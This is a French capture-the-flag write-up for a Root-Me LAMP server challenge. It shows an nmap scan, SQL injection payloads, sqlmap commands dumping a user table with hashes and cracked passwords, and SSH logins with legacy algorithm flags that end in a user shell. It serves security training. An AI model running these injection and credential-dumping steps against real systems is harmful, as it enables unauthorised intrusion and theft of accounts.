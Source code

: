 # LAMP-SECURITY 4

## Avant de commencer
Le nom du challenge donne déjà pas mal d'informations sur le type de serveur que l'on va attaquer.<br>
Un serveur LAMP pour Linux Apache Mysql et PHP, une application web est donc hébergé.

## Trouver IPv4 de la machine 

ping -c 3 ctf26.root-me.org<br>

## Scan des ports pour trouver service(s) vulnérable(s)

nmap -Pn -v 163.172.228.192<br>

PORT    STATE  SERVICE<br>
22/tcp  open   ssh<br>
80/tcp  open   http<br>
631/tcp closed ipp<br>

Le résulat du scan confirme qu'un application web tourne sur le serveur en + d'un service ssh, nous pourrons peut-être de tenter de le bruteforcer par la suite<br>

## Visite de la page WEB sur le port 80

url : 163.172.228.192:80

## Attaque par SQLI (SQL Injection)

163.172.228.192:80/page=blog&title=Blog&id=2 AND 1=1 est vulnérable<br>

### Utilisation de SQLMap

sqlmap -u http://163.172.228.192/index.html\?page=blog\&title=Blog\&id=2 --dbs<br>

Parameter: id (GET)<br>
Type: boolean-based blind<br>
Title: AND boolean-based blind - WHERE or HAVING clause<br>
Payload: page=blog&title=Blog&id=2 AND 6651=6651<br>

Type: time-based blind<br>
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)<br>
Payload: page=blog&title=Blog&id=2 AND (SELECT 5196 FROM (SELECT(SLEEP(5)))NtzK)<br>

Type: UNION query<br>
Title: Generic UNION query (NULL) - 5 columns<br>
Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,CONCAT(0x717a717171,0x544a6159597a5a414e6c67494d6369446a786c556371497745796f5458545645556375495)<br>

[16:26:25] [INFO] the back-end DBMS is MySQL<br>
web server operating system: Linux Fedora 5 (Bordeaux)<br>
web application technology: PHP 5.1.2, Apache 2.2.0<br>
back-end DBMS: MySQL >= 5.0.12<br>
[16:26:25] [INFO] fetching database names<br>
available databases [5]:<br>
[*] ehks<br>
[*] information_schema<br>
[*] mysql<br>
[*] roundcubemail<br>
[*] test<br>

sqlmap -u http://163.172.228.192/index.html\?page=blog\&title=Blog\&id=2 -D ehks --dump<br>

+---------+-----------+--------------------------------------------------+<br>
| user_id | user_name | user_pass                                        |<br>
+---------+-----------+--------------------------------------------------+<br>
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |<br>
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |<br>
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |<br>
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |<br>
| 5       | sorzek    | e0a23947029316880c29e8533d8662a3 (convertible)   |<br>
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |<br>
+---------+-----------+--------------------------------------------------+<br>

ssh jdurbin@163.172.228.192<br>
Unable to negotiate with 163.172.228.192 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1<br>

ssh jdurbin@163.172.228.192 -oKexAlgorithms=diffie-hellman-group-exchange-sha1<br>
Unable to negotiate with 163.172.228.192 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss<br>

ssh jdurbin@163.172.228.192 -oKexAlgorithms=diffie-hellman-group-exchange-sha1 -oHostKeyAlgorithms=ssh-rsa<br>
jdurbin@163.172.228.192's password: Sue1978<br>
Last login: Mon Mar  9 11:07:09 2009 from 192.168.0.50<br>
[jdurbin@ctf ~]$<br>



